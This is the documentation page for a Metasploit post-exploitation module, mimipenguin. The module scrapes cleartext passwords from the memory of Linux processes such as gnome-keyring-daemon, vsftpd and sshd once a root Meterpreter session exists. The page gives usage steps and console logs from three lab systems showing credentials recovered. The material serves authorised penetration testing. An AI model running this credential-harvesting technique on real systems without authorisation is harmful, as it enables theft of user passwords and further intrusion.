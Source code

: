 ## Vulnerable Application

This finds cleartext passwords in process memory by first locating
needles that are known to be found nearby. 

This currently searches for passwords in `gnome-keyring-daemon`, `gdm-password`,
`vsftpd`, `ssh`, and `lightdm`.

## Verification Steps

1. Get a meterpreter session on a Linux-based target (with root privileges)
2. Do: `use post/linux/gather/mimipenguin`
3. Do: `set session <sess_no>`
4. Do: `run`
5. You should get credentials for the vulnerable services installed

## Options

## Scenarios

### Ubuntu 21.04 x64

```
msf6 exploit(multi/handler) > use post/linux/gather/mimipenguin
msf6 post(linux/gather/mimipenguin) > set session 2
session => 2
msf6 post(linux/gather/mimipenguin) > run

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_railgun_api
[*] Checking for matches in process gnome-keyring-daemon
[*] Checking for matches in process gdm-password
[*] Checking for matches in process vsftpd
[*] Checking for matches in process sshd
[*] Checking for matches in process lightdm
[+] Found valid password 'password' for user 'space' in process 'gnome-keyring-daemon'!
[+] Found valid password 'AccountF0rFTP' for user 'jdoe' in process 'vsftpd'!
[+] Found 2 valid credential(s)!
[*] Post module execution completed
msf6 post(linux/gather/mimipenguin) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer     : 192.168.140.131
OS           : Ubuntu 21.04 (Linux 5.11.0-49-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.140.131 - Meterpreter session 2 closed.  Reason: User exit
msf6 post(linux/gather/mimipenguin) > creds
Credentials
===========

host  origin  service  public  private        realm  private_type  JtR Format
----  ------  -------  ------  -------        -----  ------------  ----------
                       space   password              Password      
                       jdoe    AccountF0rFTP         Password  
```

### Fedora 27 x64

```
msf6 post(linux/gather/mimipenguin) > run

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_railgun_api
[*] Checking for matches in process gnome-keyring-daemon
[*] Checking for matches in process gdm-password
[*] Checking for matches in process vsftpd
[*] Checking for matches in process sshd
[*] Checking for matches in process lightdm
[+] Found valid password 'M!mipenguinPass' for user 'mimipenguin' in process 'gnome-keyring-daemon'!
[+] Found valid password 'FTPP@ssword' for user 'ftp_user' in process 'vsftpd'!
[+] Found 2 valid credential(s)!
[*] Post module execution completed
msf6 post(linux/gather/mimipenguin) > creds
Credentials
===========

host  origin  service  public       private          realm  private_type  JtR Format
----  ------  -------  ------       -------          -----  ------------  ----------
                       mimipenguin  M!mipenguinPass         Password
                       ftp_user     FTPP@ssword             Password


```

### Ubuntu 14.04.1 x86

```
msf6 post(linux/gather/mimipenguin) > run

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_railgun_api
[*] Checking for matches in process gnome-keyring-daemon
[*] Checking for matches in process gdm-password
[*] Checking for matches in process vsftpd
[*] Checking for matches in process sshd
[*] Checking for matches in process lightdm
[+] Found valid password 'password' for user 'space' in process 'gnome-keyring-daemon'!
[+] Found valid password 'RunningUpThatH!ll' for user 'test' in process 'gnome-keyring-daemon'!
[+] Found 2 valid credential(s)!
[*] Post module execution completed
msf6 post(linux/gather/mimipenguin) > creds
Credentials
===========

host  origin  service  public  private            realm  private_type  JtR Format
----  ------  -------  ------  -------            -----  ------------  ----------
                       space   password                  Password
                       test    RunningUpThatH!ll         Password
```

